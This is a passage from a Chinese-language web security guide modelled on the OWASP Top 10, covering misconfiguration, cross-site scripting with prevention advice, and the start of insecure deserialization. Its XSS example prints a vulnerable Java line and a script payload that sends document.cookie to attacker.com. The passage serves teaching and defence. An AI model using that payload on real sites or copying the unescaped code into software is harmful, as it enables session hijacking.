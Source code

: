 ```

默认配置或从别处拷贝来的老配置项激活了一个老的、含漏洞的协议或安全选项。这些是可被攻击者或恶意软件利用的。

### 2.8 A7-跨站脚本（XSS）

XSS 是指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS 的分类：存储式跨站脚本攻击、反射跨站脚本攻击、基于DOM的XSS.

XSS是OWASP Top10中第二普遍的安全问题，存在于近三分之二的应用中。自动化工具能自动发现一些XSS问题，特别是在一些成熟的技术中，如：PHP、J2EE或JSP、ASP.NET。

#### 2.8.1 我的应用中存在跨站脚本（XSS）脆弱么?

存在三种XSS类型：
##### 反射式XSS：

你的应用中包含未验证的或未编码的用户输入，并作为HTML或者其他未启用CSP（Content Security Policy）头的一部分输出。成功的攻击将在受害者的浏览器上执行任意HTML或JS代码。

一般而言，用户需要点击链接或与其他攻击者控制页面做交互。

##### 存储式XSS：

你的应用或者API将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。

存储型XSS一般被认为是高危或严重的风险。

##### 基于DOM的XSS：

会动态的将攻击者可控的内容加入页面的JavaScript框架、单页面程序或API存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的JavaScript API。

典型的XSS攻击可导致:盗取session、账户、绕过MFA、DIV替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。
 
#### 2.8.2 如何防止？

防止XSS需要将不可信数据与动态的浏览器内容区分开。

- 从设计源头考虑解决XSS问题，例如使用能够自动编码的框架，如：Ruby 3.0或 React JS。
- 为了避免服务器XSS，最好的办法是根据数据将要置于的HTML上下文（包括：主体、属性、JavaScript、CSS或URL）对所有的不可信数据进行恰当的排除 （escape） 。更多关于数据转义
技术的信息见：《OWASP XSS Prevention Cheat Sheet》 。
- 为了避免客户端XSS，最好的选择是避免传递不受信任的数据到JavaScript和可以生成活动内容的其他浏览器A PI。如果这种情况不能避免，可以采用《OWASP DOM based XSS Prevention
Cheat Sheet》描述的类似上下文敏感的转义技术应用于浏览器API。https://github.com/OWASP/CheatSheetSeries
- 使用内容安全策略（ CSP）是对抗XSS的深度防御策略。https://www.w3.org/TR/CSP2/ 和 https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

#### 2.8.3 攻击案例场景

应用程序在下面HTML代码段的构造中使用未经验证或未排除的不可信的数据：
```（ String ） page += "<input name='creditcard' type=' TEXT‘value='" + request.getParameter（"CC"） + "'>";```

攻击者在浏览器中修改“CC” 参数为如下值：

```'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.```

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

请注意攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项

### 2.9 A8-不安全的反序列化

不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

对反序列化的利用是有点困难的，因为在不更改或调整底层代码的情况下，货架漏洞（Shelf Exploit）很少起作用。但反序列化缺陷的影响不能被低估。它们可能导致远程代码执行攻击，这是
```